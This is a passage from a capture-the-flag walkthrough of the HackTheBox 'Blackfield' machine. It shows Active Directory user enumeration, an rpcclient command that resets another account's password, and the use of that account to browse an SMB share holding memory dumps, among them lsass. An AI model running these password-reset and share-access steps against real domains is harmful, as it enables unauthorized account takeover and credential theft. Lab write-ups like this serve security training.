 ```nix
user:[BLACKFIELD758945] rid:[0x57f]
user:[BLACKFIELD541148] rid:[0x580]
user:[BLACKFIELD532412] rid:[0x581]
user:[BLACKFIELD996878] rid:[0x582]
user:[BLACKFIELD653097] rid:[0x583]
user:[BLACKFIELD438814] rid:[0x584]
user:[svc_backup] rid:[0x585]
user:[lydericlefebvre] rid:[0x586]
rpcclient $>
```

> [https://malicious.link/post/2017/reset-ad-user-password-with-linux/](https://malicious.link/post/2017/reset-ad-user-password-with-linux/)

```nix
rpcclient $> setuserinfo2 audit2020 23 'ASDqwe123'
rpcclient $>
```

This time I tried login in `forensic` share and Im logged in.

```bash
root@kali:~/CTF/HTB/Boxes/Blackfield# smbclient //10.10.10.192/forensic -U 'audit2020'
Enter WORKGROUP\audit2020's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Feb 23 18:33:16 2020
  ..                                  D        0  Sun Feb 23 18:33:16 2020
  commands_output                     D        0  Sun Feb 23 23:44:37 2020
  memory_analysis                     D        0  Fri May 29 01:58:33 2020
  tools                               D        0  Sun Feb 23 19:09:08 2020

		7846143 blocks of size 4096. 4095546 blocks available
smb: \>
```

These are tools used for Digital forensics.

```bash
smb: \> cd tools
smb: \tools\> ls
  .                                   D        0  Sun Feb 23 19:09:08 2020
  ..                                  D        0  Sun Feb 23 19:09:08 2020
  sleuthkit-4.8.0-win32               D        0  Sun Feb 23 19:09:03 2020
  sysinternals                        D        0  Sun Feb 23 19:05:25 2020
  volatility                          D        0  Sun Feb 23 19:05:39 2020

		7846143 blocks of size 4096. 4095034 blocks available
smb: \tools\>
```

So these must be the files which are got from the tools.

```bash
smb: \> cd memory_analysis
ls
smb: \memory_analysis\> ls
  .                                   D        0  Fri May 29 01:58:33 2020
  ..                                  D        0  Fri May 29 01:58:33 2020
  conhost.zip                         A 37876530  Fri May 29 01:55:36 2020
  ctfmon.zip                          A 24962333  Fri May 29 01:55:45 2020
  dfsrs.zip                           A 23993305  Fri May 29 01:55:54 2020
  dllhost.zip                         A 18366396  Fri May 29 01:56:04 2020
  ismserv.zip                         A  8810157  Fri May 29 01:56:13 2020
  lsass.zip                           A 41936098  Fri May 29 01:55:08 2020
  mmc.zip                             A 64288607  Fri May 29 01:55:25 2020
  RuntimeBroker.zip                   A 13332174  Fri May 29 01:56:24 2020
  ServerManager.zip                   A 131983313  Fri May 29 01:56:49 2020
```